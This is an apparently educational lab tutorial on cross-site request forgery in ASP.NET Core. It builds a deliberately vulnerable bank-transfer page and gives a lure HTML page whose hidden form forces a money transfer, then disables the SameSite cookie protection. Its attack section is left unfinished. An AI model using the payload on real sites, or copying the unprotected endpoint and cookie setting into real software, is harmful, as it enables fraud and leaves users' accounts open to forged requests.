 # Cross-Site Request Forgery (XSRF/CSRF) Attacks 

<!-- vscode-markdown-toc -->
* 1. [Objectives](#Objectives)
* 2. [Documentation](#Documentation)
* 3. [Step 1 - Create an application with individual user accounts](#Step1-Createanapplicationwithindividualuseraccounts)
* 4. [Step 2 - Add the CSRF vulnerable webpage](#Step2-AddtheCSRFvulnerablewebpage)
* 5. [Malicious or infected web site](#Maliciousorinfectedwebsite)
* 6. [Attacks](#Attacks)
* 7. [Bibliography](#Bibliography)

<!-- vscode-markdown-toc-config
	numbering=true
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc --> 

##  1. <a name='Objectives'></a>Objectives

##  2. <a name='Documentation'></a>Documentation
Cross-site request forgery (also known as XSRF or CSRF, pronounced see-surf) is an attack against web-hosted apps whereby a malicious web app can influence the interaction between a client browser and a web app that trusts that browser. These attacks are possible because web browsers send some types of authentication tokens automatically with every request to a website. This form of exploit is also known as a one-click attack or session riding because the attack takes advantage of the user's previously authenticated session.

> Recommended further reading: Open Web Application Security Project - OWASP (description of the vulnerability in general): https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF); CSRF in ASP.NET: https://docs.microsoft.com/en-us/aspnet/core/security/anti-request-forgery

# Vulnerable website - IronBank Web'Banking

##  3. <a name='Step1-Createanapplicationwithindividualuseraccounts'></a>Step 1 - Create an application with individual user accounts

> :octocat: Full source code available, check the `10 - Vulnerabilities - CSRF (Cross-Site Request Forgery)` folder.

1. Create a new "ASP.NET Core Web App (Model-View-Controller)" project named "IronBankWeb".

2. For "Authentication type" choose "Indvidual Accounts".

3. Notice that in the `Data` folder the application already includes the necessary database migrations.

4. Create an SQL Server database and update the connection string in `appsettings.json`.

5. Run the application.

6. Choose the "Register" link and create a new account.

##  4. <a name='Step2-AddtheCSRFvulnerablewebpage'></a>Step 2 - Add the CSRF vulnerable webpage

1. Add a new controller, called `BankAccountController`.
2. Decorate the controller using the `[Authorize]` annotation in order to prevent any unauthenticated requests towards the actions on this controller.
3. Add an action called `Transfer` to the `BankAccountController` as follows.

    ```C#
    public IActionResult Transfer()
    {
        return View();
    }
    ```

4. Add a new viewmodel class to the `Models` folder.

    ```C#
    public class TransferViewModel
    {
        public string DestinationAccount { get; set; }
        public decimal Amount { get; set; }
    }
    ```

4. Add a new View for the `Transfer` action.

    ```CSHTML
    @model TransferViewModel
    @{
        ViewData["Title"] = "Transfer";
    }

    <h2>Transfer</h2>

    @if(TempData["message"] != null)
    {
        <div class="alert alert-danger">
            @TempData["message"]
        </div>
    }

    <form method="post">
        <label asp-for="DestinationAccount"></label>
        <input asp-for="DestinationAccount" />
        <label asp-for="Amount"></label>
        <input asp-for="Amount" />
        <input type="submit" />
    </form>
    ```

5. Add a POST method for the form in the View

    ```C#
    [HttpPost]
    public IActionResult Transfer(TransferViewModel transfer)
    {
        if(ModelState.IsValid)
        {
            ViewBag.Message = $"You have transfered {transfer.Amount} euros to {transfer.DestinationAccount}.";
        }
        return View(transfer);
    }
    ```

##  5. <a name='Maliciousorinfectedwebsite'></a>Malicious or infected web site

> :octocat: Full source code available, check the `10 - Vulnerabilities - CSRF (Cross-Site Request Forgery)` folder.

1. Create an `html` file with the following content.

    ```HTML
    <!DOCTYPE html>
    <html>
    <head>
        <title>Malicious or infected web site</title>
    </head>
        <body style="text-align:center;">

            <img src="winner.jpg">

            <h1>Congratulations!</h1>
            <h1>You have won a Samsung Galaxy Fold (2.000 euros)!!!!</h1>
            <form action="http://good-banking-site.com/api/account" method="post">
                <input type="hidden" name="DestinationAccount" value="RO85INGBXXXXXXXXXX">
                <input type="hidden" name="Amount" value="1000000">
                <input type="submit" value="Click to collect your prize!">
            </form>


        </body>
    </html>
    ```

2. You will need to replace "http://good-banking-site.com/api/account" with the actual address of the vulnerable form (ex: https://localhost:5001/BankAccount/Transfer).

##  6. <a name='Attacks'></a>Attacks

1. Check the cookie policy in Google Chome. Change the same site policy to none by adding the following code to the `Main` method of the `Program` class.

    ```C#
    builder.Services.ConfigureApplicationCookie(options =>
    {
        options.Cookie.SameSite = SameSiteMode.None;
    });
    ```

2. 
// asp-antiforgery="false"
// [ValidateAntiForgeryToken]
// TODO? Method using GET

##  7. <a name='Bibliography'></a>Bibliography
- Prevent Cross-Site Request Forgery (XSRF/CSRF) attacks in ASP.NET Core: https://docs.microsoft.com/en-us/aspnet/core/security/anti-request-forgery?
- OWASP CSRF: https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)